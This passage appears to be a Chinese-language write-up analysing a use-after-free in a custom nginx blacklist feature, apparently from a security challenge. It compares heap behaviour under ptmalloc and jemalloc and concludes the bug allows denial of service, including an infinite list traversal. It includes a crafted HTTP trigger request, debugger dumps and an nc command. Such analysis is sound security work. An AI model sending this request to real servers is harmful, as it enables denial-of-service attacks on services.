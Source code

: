 我想：是否存在特定于应用程序的漏洞，例如，可以删除黑名单以有效“破坏”此功能？我们可以将其设置next为零，这样可以有效删除黑名单。但该IP字段将被设置为无效地址……同样是因为我只能写入以零结尾的数字和点（不允许部分覆盖）。  
  
因此我认为这个bug的最大影响就是拒绝服务。  
- ptmalloc，经过优化  
  
使用O3，黑名单节点不会被 memzeroed。但是，由于 tcache 的内联元数据，指向无效内存的问题IP仍然存在。没有合适的堆小工具可以在IPUAF 对象的字段中写入有效的内存地址。  
  
因此我认为该漏洞的最大影响依然是拒绝服务。  
- jemalloc，没有优化  
  
我们这样指向jemalloc：  
  
```
LD_PRELOAD=/usr/local/lib/libjemalloc.so objs/nginx -c /home/roundofthree/challenge-004-nginx-source/cp9/test.conf
```  
  
  
IPjemalloc 不存在字段损坏问题，因为 jemalloc 不内联堆元数据，但IP如果 Nginx 编译时未进行优化，则会被归零。从我们拥有的堆小工具来看，我找不到在 处写入有效内存地址的方法IP。任何重用 UAF 黑名单节点的行为都会导致崩溃。呃  
  
因此我认为该漏洞的最大影响依然是拒绝服务。  
- jemalloc，经过优化  
  
通过优化，IP不会归零，因此 UAF 节点可以重复使用而不会崩溃。IP也会指向释放的内存。  
  
使用此请求触发 UAF 和重新分配，  
  
```
GET/ HTTP/1.1Host: localhost:9999User-Agent: curl/7.81.0Accept: */*Black-List: 111.111.111.111;222.222.222.222;333.333.333.333;White-List: 111.111.111.111;Black-List: 444.444.444.444;
```  
  
  
在删除第一个节点之前，  
  
```
gef➤ p **(ngx_black_list_t **)0x783ffe04ab70$3 = {  IP = 0x783ffe01d060,  next = 0x783ffe0340e0,  prev = 0x0}gef➤ p *(ngx_str_t *)0x783ffe01d060$4 = {  len = 0x10,  data = 0x783ffe01d050 "111.111.111.111"}
```  
  
  
移除第一个节点并插入新节点后，新节点与第一个节点重叠（与 ptmalloc 不同，jemalloc 的大小类为 0x10 和 0x20 字节），但由于 malloc/free 顺序，IP和IP->data指针被交换。它使第一个节点处于有效状态，因此进程不会崩溃。但next和prev指针形成一个圆圈。  
  
```
gef➤ p *(ngx_black_list_t *)0x0000783ffe0340c0$19 = {  IP = 0x783ffe01d050,  next = 0x783ffe0340c0,  prev = 0x783ffe0340c0}gef➤ p *(ngx_str_t *)0x783ffe01d050$16 = {  len = 0x10,  data = 0x783ffe01d060 "444.444.444.444"}
```  
  
  
插入新节点会导致无限遍历。删除节点将返回与之前相同的应用程序状态。我们在这里受到限制，因为我们没有足够的相同大小类的头部小工具。如果我们释放两次对象，第二次释放将导致进程崩溃，因为该IP对象被内存清零。  
  
虽然不是 RCE，但破坏链接列表以触发无限遍历可能比仅仅使进程崩溃更严重，因为无限遍历会占用工作进程。  
  
```
$ nc localhost 8080GET / HTTP/1.1Host: localhost:9999User-Agent: curl/7.81.0Accept: */*
```  
  